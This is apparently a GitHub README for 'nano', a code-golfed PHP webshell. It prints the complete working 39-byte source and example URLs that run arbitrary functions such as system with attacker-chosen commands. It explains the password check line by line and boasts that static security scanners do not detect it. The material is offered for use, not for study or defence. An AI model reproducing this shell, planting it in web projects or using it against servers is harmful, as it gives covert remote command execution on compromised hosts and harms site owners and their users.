 # nano
nano is a PHP webshell which is code golfed to be extremely stealthy.\
Put it on watch maybe, I am planning to upload some variantions of it in near future.

### Usage
`http://example.com/nano.php?f=function&c=command&p=password`

`f` is for function\
`c` is for command\
`p` is for password

For example, the code below will execute the `ls` command:

`http://example.com/nano.php?f=system&c=ls&p=password`

### Features
- 39 bytes in size ([nodistribute.com](http://nodistribute.com/) said its an empty file lmao)
- Fully undetectable by security solutions that scan static code
- Supports password protection
- Fully flexible & efficient if you know stuff

## Functioning
nano consists of 39 characters and hence is 39 bytes in size.\
Source Code:
```php
<?$x=$_GET;($x[p]=='_'?$x[f]($x[c]):y);
```
Yeah I know that looks kind of puzzling but let me explaining it.

- `<?` a valid replacement for `<?php`

- `$x=$_GET;` defines a variable `x` which holds the value `$_GET` so we can use just `$x` instead of `$_GET` to save space.

- `(condition ? code : code )` is a shorthand for `if (condition){code}else{code}`. You can read more about it [here](https://davidwalsh.name/php-shorthand-if-else-ternary-operators).

- `$x[p]=='_'` this is the condition which is mentioned in the previous part. It checks if the value of parameter p is equal to `'_'`. Yep, `_` is the password.

- If the password matches, the code `$x[f]($x[c])` is executed. As you guys know, PHP's syntax for executing functions is `function(argument)`, I kept both `function` and `arugment` variables so you can specify them through a GET request.

- The `y` does nothing here, I just had to add it to maintain the syntax.

- Why didn't I end it with a `?>`? Because we don't need to.

#### Everything Else
This is my first php thingy so if there's way to do what I did in a better way please let me know or open a pull request.\
This 39 characters of code is licensed under **MIT license** which basically means you have to give me credit if you want to redistribute or modify it.
